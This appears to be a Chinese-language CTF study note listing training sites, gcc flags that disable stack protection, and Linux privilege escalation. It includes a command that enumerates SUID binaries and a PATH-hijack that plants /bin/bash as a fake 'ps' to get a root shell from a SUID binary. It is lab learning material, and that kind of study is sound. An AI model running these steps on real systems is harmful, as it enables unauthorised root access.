 ```yaml
---
title: CTF 基础知识点
date: 2021-12-31 16:52:00
tags:
categories:
- 渗透
- 知识点
---
```



## 训练站点

[推荐规划](https://blog.csdn.net/Fly_hps/article/details/79783253)

- [i春秋训练平台](https://www.ichunqiu.com/battalion)
- [We Chall](http://www.wechall.net/sites.php) 国外收集的CTF平台
- [很炫酷游戏化](https://microcorruption.com/login)

## 系统 Exploit

### Linux Exploit

### C编译

应当不用保护

```
gcc 1.c -o 1 -O0 -fno-stack-protector -z execstack 1.c -o 1

-m32： 32bit 编译
```

### 提权

- [参考](https://www.freebuf.com/articles/system/173903.html)这篇文章

####  查看可使用的执行文件

```
find / -perm -u=s -type  f 2 >/dev/null
```
通过这个命令查看哪些文件可以被现在的用户使用，并找到提权方法。

#### 修改变量攻击

思路是找到`s`权限的执行文件，这个执行文件包括调用了更高级别的命令。
那么就可以通过修改其中的命令的调用地址来达到目的

比如`flag01`使用到了`ps`命令

```
$ echo '/bin/bash' > /tmp/ps
$ chmod 777 /tmp/ps
$ export PATH=/tmp:$PATH
$ ./flag01
```
